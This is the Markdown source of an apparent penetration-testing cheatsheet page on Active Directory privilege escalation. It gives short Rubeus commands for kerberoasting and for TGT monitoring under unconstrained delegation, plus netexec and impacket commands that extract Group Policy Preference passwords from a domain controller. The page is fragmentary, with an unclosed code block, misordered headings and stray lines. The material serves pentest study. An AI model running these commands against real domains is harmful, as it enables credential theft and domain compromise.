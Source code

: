 ```yaml
---
layout: post
title: privesc / ad
category: 02-privesc
parent: cheatsheets
modified_date: 2023-07-04
permalink: /privesc/ad
---
```


**Mitre Att&ck Entreprise**: [TA0007 - Discovery](https://attack.mitre.org/tactics/TA0007/)

**Menu**
<!-- vscode-markdown-toc -->
* [dacl](#dacl)
* [kerberos](#kerberos)
	* [kerberoasting](#kerberoasting)
	* [delegations](#delegations)
* [vuln_user_accounts_dormant](#vuln_user_accounts_dormant)
* [shoot-gpo](#shoot-gpo)
	* [gpp-password](#gpp-password)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->


**Tools**

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/t0thkr1s/gpp-decrypt","https://api.github.com/repos/FSecureLABS/SharpGPOAbuse","https://api.github.com/repos/NetSPI/PowerUpSQL"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.pushed_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>_repo</th><th>_last_push</th><th>_stars</th><th>_watch</th><th>_language</th></tr>
    </table>
</div>

## <a name='dacl'></a>dacl

credit: [thehacker.repices](https://thehacker.repices/ad/movement/dacl)
![ad privesc DACLs](/assets/images/pen-privesc-dacl.png)

## <a name='kerberos'></a>kerberos

### <a name='kerberoasting'></a>kerberoasting
```powershell
# kerberoastable accounts that support RC4_HMAC
Rubeus.exe -args kerberoast /user:$ztarg_user_name /simple /rc4opsec /outfile:hashes.txt

# edit 'hashes.txt' and remove the port in the SPN FOR JTR valid input 
:1433
```

🔎️ DETECT :
```powershell
# Kerberos etype downgrade
```

### <a name='delegations'></a>delegations

<iframe width="560" height="315" src="https://www.youtube.com/embed/7_iv_eaAFyQ" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

 [recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations) / [slides](https://drive.google.com/file/d/1S8Ee29xUHluaT3shvtuHZqGfwZGfSCaV/view)

```powershell
# KUD server: monitor the TGT
Rubeus.exe -args %Pwn% /targetuser:DCORP-DC$ /interval:5 /nowrap


## <a name='vuln_user_accounts_dormant'></a>vuln_user_accounts_dormant

```powershell
pwdLastSet
```
* [Description](https://www.cert.ssi.gouv.fr/uploads/ad_checklist.html#vuln_user_accounts_dormant)


#### KUD

#### KCD

* introduced in Windows Server 2008

#### RBCD

## <a name='shoot-gpo'></a>shoot-gpo

![](/assets/images/win_20_audit_gpo.jpg)

### <a name='gpp-password'></a>gpp-password

```bash
# cme
netexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_pasword
netexec smb $zdom_dc_ip -u $ztarg_user_name -p $ztarg_user_pass -M gpp_autologin

# impacket
Get-GPPPassword.py $zz
```